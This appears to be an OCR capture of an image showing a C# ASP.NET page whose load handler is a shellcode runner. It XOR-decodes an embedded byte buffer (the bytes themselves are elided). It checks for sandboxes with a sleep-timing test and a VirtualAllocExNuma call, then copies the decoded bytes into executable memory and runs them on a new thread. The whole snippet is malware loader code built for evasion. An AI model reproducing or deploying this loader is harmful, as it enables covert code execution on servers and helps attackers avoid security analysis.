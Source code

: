 ```csharp

static extern IntPtr CreateThread(IntPtr lpThreadAttributes,

uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,

uint dwCreationFlags, IntPtr lpThreadId);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]

static extern UInt32 WaitForSingleObject(IntPtr hHandle,

UInt32 dwMilliseconds);

protected void Page_Load(object sender, EventArgs e)

{

byte[] buf = new byte[642] {0x40, ...};

byte[] dec = new byte[buf.Length];

for (int i = 0; i < buf.Length; i++)

{

dec[i] = (byte)((uint)buf[i] ^ 0xbc);

}

DateTime t1 = DateTime.Now;

Sleep(2000);

double t2 = DateTime.Now.Subtract(t1).TotalSeconds;

if (t2 < 1.5)

{

return;

}

IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);

if (mem == null)

{

return;

}

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(dec, 0, addr, dec.Length);

IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);

}

```